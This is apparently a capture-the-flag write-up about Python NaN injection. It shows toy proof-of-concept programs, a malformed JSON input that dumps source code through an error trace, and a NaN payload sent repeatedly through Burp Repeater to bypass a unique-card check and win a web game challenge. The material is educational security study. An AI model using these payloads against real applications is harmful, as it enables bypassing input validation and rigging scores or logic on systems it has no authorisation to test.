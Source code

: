 ## Objective


## Solution

#### NaN concepts 0
- NaN (Not a Number) is a special value representing missing or undefined Python data.

#### NaN concepts 1
- ```float(str)``` can process a string "NaN" without any error
- When added or multiplied or any other operation is performed with the ```nan``` it is nan which wins
```python
small = float("NaN")
big = float(999.999)

print(big>small)
print(small>big)
print(small==big)
```
```output
False
False
False
```
#### NaN concepts 2

```python
boo = float("NaN")
if boo == "NaN":
    print("Got a NaN")
else:
    print("There is no NaN? What is the the value of boo?")
    print(boo)
```
```
>There is no NaN? What is the the value of boo?
>nan
```

#### NaN injection example PoC 1
- The code below is supposed to store 5 unique numbers
- We can enter ```NaN``` 5 times and at the end of the execution the entire list will have 5 ```nan``` values
```python3
def get_unique_numbers():
    unique_numbers = set()

    while len(unique_numbers) < 5:
        try:
            user_input = float(input(f"Enter unique number {len(unique_numbers) + 1}: "))
            if user_input in unique_numbers:
                print("Number already entered. Please enter a unique number.")
            else:
                unique_numbers.add(user_input)
        except ValueError:
            print("Invalid input. Please enter a valid number.")

    return list(unique_numbers)

if __name__ == "__main__":
    unique_numbers_list = get_unique_numbers()
    print("You entered the following unique numbers:", unique_numbers_list)
```
```
Enter unique number 1: 4
Enter unique number 2: 4
Number already entered. Please enter a unique number.
Enter unique number 2: NaN
Enter unique number 3: NaN
Enter unique number 4: NaN
Enter unique number 5: NaN
You entered the following unique numbers: [nan, 4.0, nan, nan, nan]
```

#### NaN injection example PoC 2
- The code below stores 5 numbers and returns the max and the min value
```python
def get_user_inputs():
    numbers = []
    for i in range(5):
        try:
            user_input = float(input(f"Enter number {i + 1}: "))
            numbers.append(user_input)
        except ValueError:
            print("Invalid input. Please enter a valid number.")
            i -= 1  # Decrement the loop counter to re-enter the current input

    return numbers

if __name__ == "__main__":
    user_numbers = get_user_inputs()

    if user_numbers:
        highest_number = max(user_numbers)
        lowest_number = min(user_numbers)

        print("Entered numbers:", user_numbers)
        print("Highest number:", highest_number)
        print("Lowest number:", lowest_number)
```
```
Enter number 1: NaN
Enter number 2: -11
Enter number 3: 0
Enter number 4: 3333
Enter number 5: 44
Entered numbers: [nan, -11.0, 0.0, 3333.0, 44.0]
Highest number: nan
Lowest number: nan
```
#### Dump code via error stacktrace

- Trigger an error that will dump the code
```
{"play":"0x5,6,7,8,9"}
```

#### Vulnerable code analysis
- Inject NaN
- Bypass the unique card check
- ```max()``` and ```min()``` returns ```nan``` is all cases
```python3
# Error in function named play_cards:
....
        for row in reader:
            for n in row:
                n = float(n) #----------> Inject NaN here
                if is_valid_whole_number_choice(n) and n not in [x['num'] for x in player_cards]:
                    player_cards.append({
                        'owner': 'p',
                        'num': n
                    })
            break

        #-----------> Bypass the check here
        if len(player_cards) != 5:
            return jsonify({
                "request": False,
                "data": f"Requires 5 unique values but was given \"{csv_card_choices}\""
            })
....
        
        maxItem = False
        minItem = False

        #-----------> NaN magic here
        if bool(len(all_cards)):
            maxItem = max(all_cards, key=lambda x: x['num'])
            minItem = min(all_cards, key=lambda x: x['num'])

....
```

#### Forge for the win
- We will use Burp Repeater to solve the challenge.
- Send JSON data with NaN for all the cards number
```json
{"play":"NaN,NaN,NaN,NaN,NaN"}
```
- For every successful response replace the old cookie with the new cookie
- Once the score reached 10 we would get the win success hash in our response
```json
{
   "data":{
      "conduit":{
         "hash":"a2a6c9bcc95608962d98d885e847c08e36908e00048cedf000fd259bd02e6f61",
         "resourceId":"b5187f3e-8cd5-48c3-9796-001f332ea558"
      },
     ......
}
```

#### Reference
- https://www.tenable.com/blog/python-nan-injection
